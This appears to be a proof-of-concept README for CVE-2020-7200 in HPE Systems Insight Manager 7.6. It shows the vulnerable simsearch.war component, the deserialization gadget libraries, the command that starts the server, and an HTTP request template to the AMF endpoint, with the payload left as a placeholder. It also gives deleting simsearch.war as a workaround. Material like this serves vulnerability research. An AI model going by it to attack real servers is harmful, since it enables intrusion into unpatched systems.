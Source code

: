 # CVE-2020-7200

Download HPE SIM 7.6: https://support.hpe.com/hpesc/public/docDisplay?docId=emr_na-c05350303#N10011

Details: https://support.hpe.com/hpesc/public/docDisplay?docLocale=en_US&docId=hpesbgn04068en_us

🎞 Video: https://www.youtube.com/watch?v=QNhcNJtjKyw

HPE does not provide a patch but only for a temporary fix simply delete simsearch.war in ```C:\Program Files\HP\Systems Insight Manager\jboss\server\hpsim\deploy\simsearch.war```, so this means This is the main cause of this vulnerability!

```
Program Files\HP\Systems Insight Manager\jboss\server\hpsim\deploy\simsearch.war
└───WEB-INF
    │
    └───lib
            axis-1.4.jar
            backport-util-concurrent.jar
            cfgatewayadapter.jar
            commons-codec-1.3.jar
            commons-httpclient-3.0.1.jar
            commons-logging.jar
            concurrent.jar
            flex-messaging-common.jar
            flex-messaging-core.jar
            flex-messaging-opt.jar
            flex-messaging-proxy.jar
            flex-messaging-remoting.jar
            flex-rds-server.jar
            jaxrpc.jar
            simsearch.jar
            xalan.jar
            
Program Files\HP\Systems Insight Manager
└───lib
        jgroups-2.2.1.jar

Program Files\HP\Systems Insight Manager\jboss\server\hpsim
└───lib
        commons-collections.jar
        javassist.jar
```

Start server:

```
C:\Program Files\HP\Systems Insight Manager\lbin>hpsimsvc.exe -console
```

Request:

```
POST /simsearch/messagebroker/amfsecure HTTP/1.1
Host: 127.0.0.1:50000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 0

<PAYLOAD>
```
